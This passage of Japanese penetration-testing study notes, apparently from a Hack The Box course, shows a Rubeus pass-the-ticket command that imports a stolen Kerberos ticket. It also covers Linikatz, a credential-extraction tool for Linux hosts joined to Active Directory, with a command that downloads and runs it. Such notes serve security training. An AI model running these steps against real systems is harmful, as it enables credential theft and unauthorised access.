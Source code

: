 .kirbiに変換することで、Rubeus を使用した Windows セッションに変換されたチケットのインポートが行える
```cmd-session
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```

- [Linikatz](https://github.com/CiscoCXSecurity/linikatz)は、Active Directoryとの統合時にLinuxマシンの資格情報を悪用するために、Ciscoのセキュリティチームが作成したツール
- LinikatzはUnix環境に`Mimikatz`と同じ働き
- mimikatzと同様に管理者権限は必要
- クレデンシャルを抽出したら、名前が`linikatz.`で始まるフォルダに吐き出す
```shell-session
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
/opt/linikatz.sh
```
